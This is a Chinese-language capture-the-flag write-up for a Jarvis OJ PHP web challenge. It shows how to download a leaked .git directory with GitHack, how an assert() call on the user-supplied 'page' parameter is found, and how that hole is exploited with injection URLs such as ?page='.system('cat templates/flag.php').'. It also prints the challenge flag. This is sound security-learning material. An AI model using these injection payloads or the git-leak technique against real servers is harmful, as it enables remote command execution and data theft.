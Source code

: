 ## 描述

题目入口：http://web.jarvisoj.com:32798/

Hint1: 此题缺少关键解题文件的问题已修复。

## 题解

```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta name="viewport" content="width=device-width, initial-scale=1">

        <title>My PHP Website</title>

        <link rel="stylesheet" href="http://libs.baidu.com/bootstrap/3.0.3/css/bootstrap.min.css" />
    </head>
    <body>
        <nav class="navbar navbar-inverse navbar-fixed-top">
            <div class="container">
                <div class="navbar-header">
                    <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
                        <span class="sr-only">Toggle navigation</span>
                        <span class="icon-bar"></span>
                        <span class="icon-bar"></span>
                        <span class="icon-bar"></span>
                    </button>
                    <a class="navbar-brand" href="#">Project name</a>
                </div>
                <div id="navbar" class="collapse navbar-collapse">
                    <ul class="nav navbar-nav">
                        <li class="active"><a href="?page=home">Home</a></li>
                        <li ><a href="?page=about">About</a></li>
                        <li ><a href="?page=contact">Contact</a></li>
                        <!--<li ><a href="?page=flag">My secrets</a></li> -->
                    </ul>
                </div>
            </div>
        </nav>

        <div class="container" style="margin-top: 50px">
            <h1 style="text-align: center">欢迎来到我的网站！<br></h1>
<br/>
<p>您可以使用上面的链接浏览页面！</p>
        </div>
        <script src="http://code.jquery.com/jquery-latest.js" />
        <script src="http://libs.baidu.com/bootstrap/3.0.3/js/bootstrap.min.js" />
    </body>
</html>
```

`?page=home` 这种操作特别可疑。。是不是能注入。。尝试一下。http://web.jarvisoj.com:32798/?page=gg 得到了

```
That file doesn't exist!
```

没啥用。突然发现注释里有一句 `<!--<li ><a href="?page=flag">My secrets</a></li> -->`，尝试一下 http://web.jarvisoj.com:32798/?page=flag 得到一个空白页面

```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta name="viewport" content="width=device-width, initial-scale=1">

        <title>My PHP Website</title>

        <link rel="stylesheet" href="http://libs.baidu.com/bootstrap/3.0.3/css/bootstrap.min.css" />
    </head>
    <body>
        <nav class="navbar navbar-inverse navbar-fixed-top">
            <div class="container">
                <div class="navbar-header">
                    <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
                        <span class="sr-only">Toggle navigation</span>
                        <span class="icon-bar"></span>
                        <span class="icon-bar"></span>
                        <span class="icon-bar"></span>
                    </button>
                    <a class="navbar-brand" href="#">Project name</a>
                </div>
                <div id="navbar" class="collapse navbar-collapse">
                    <ul class="nav navbar-nav">
                        <li ><a href="?page=home">Home</a></li>
                        <li ><a href="?page=about">About</a></li>
                        <li ><a href="?page=contact">Contact</a></li>
                        <!--<li class="active"><a href="?page=flag">My secrets</a></li> -->
                    </ul>
                </div>
            </div>
        </nav>

        <div class="container" style="margin-top: 50px">
                    </div>
        <script src="http://code.jquery.com/jquery-latest.js" />
        <script src="http://libs.baidu.com/bootstrap/3.0.3/js/bootstrap.min.js" />
    </body>
</html>
```

和前面的区别不大。header 也没看出有啥有用的信息。折腾了一会只能取看题解。

woc？git 泄露？？我当时看到用了 git 我就怀疑是不是这玩意出问题了，但是我尝试的是 http://web.jarvisoj.com:32798/?page=.git 。。。还是太年轻

Git 泄露详细介绍：https://www.freebuf.com/sectool/66096.html

这个故事告诉我们，不要将 .git 部署上去！现成有方便的工具，可以直接 hack，见 https://github.com/lijiejie/GitHack 下载之后直接 `python Githack http://web.jarvisoj.com:32798/.git/` 就得到了这些文件

```
index.php
templates/about.php
templates/contact.php
templates/flag.php
templates/home.php
```

看了下，`template` 文件夹下的文件没啥有用的信息，`flag.php` 只有如下代码

```php
<?php
// TODO
//$FLAG = '';
?>
```

而 `index.php` 为

```php
<?php
if (isset($_GET['page'])) {
    $page = $_GET['page'];
} else {
    $page = "home";
}
$file = "templates/" . $page . ".php";
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
assert("file_exists('$file')") or die("That file doesn't exist!");
?>
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta name="viewport" content="width=device-width, initial-scale=1">

        <title>My PHP Website</title>

        <link rel="stylesheet" href="http://libs.baidu.com/bootstrap/3.0.3/css/bootstrap.min.css" />
    </head>
    <body>
        <nav class="navbar navbar-inverse navbar-fixed-top">
            <div class="container">
                <div class="navbar-header">
                    <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
                        <span class="sr-only">Toggle navigation</span>
                        <span class="icon-bar"></span>
                        <span class="icon-bar"></span>
                        <span class="icon-bar"></span>
                    </button>
                    <a class="navbar-brand" href="#">Project name</a>
                </div>
                <div id="navbar" class="collapse navbar-collapse">
                    <ul class="nav navbar-nav">
                        <li <?php if ($page == "home") { ?>class="active"<?php } ?>><a href="?page=home">Home</a></li>
                        <li <?php if ($page == "about") { ?>class="active"<?php } ?>><a href="?page=about">About</a></li>
                        <li <?php if ($page == "contact") { ?>class="active"<?php } ?>><a href="?page=contact">Contact</a></li>
                        <!--<li <?php if ($page == "flag") { ?>class="active"<?php } ?>><a href="?page=flag">My secrets</a></li> -->
                    </ul>
                </div>
            </div>
        </nav>

        <div class="container" style="margin-top: 50px">
            <?php
                require_once $file;
            ?>
        </div>
        <script src="http://code.jquery.com/jquery-latest.js" />
        <script src="http://libs.baidu.com/bootstrap/3.0.3/js/bootstrap.min.js" />
    </body>
</html>
```

注意到 `assert("strpos('$file', '..') === false") or die("Detected hacking attempt!")` 这句话，查了一下 `strpos`，感觉可以拼接一下，但是自己不熟悉 PHP，只能去看题解。

然后发现 woc，这玩意搞一下可以执行任何 PHP 命令？？构造 `$file='.system('ls').'`，意思就是用 `.` 来拼接 `system` 的返回结果，惊呼 woc。

`http://web.jarvisoj.com:32798/?page='.system('ls').'`

返回了

`index.php templates index.php templates That file doesn't exist!`

继续来

`http://web.jarvisoj.com:32798/?page='.system('cat templates/flag.php').'`

得到

```php
<?php
// TODO
//$FLAG = '61dctf{8e_careful_when_us1ng_ass4rt}';
?>
<?php
// TODO
//$FLAG = '61dctf{8e_careful_when_us1ng_ass4rt}';
?>
That file doesn't exist!
```

## 答案

61dctf{8e_careful_when_us1ng_ass4rt}
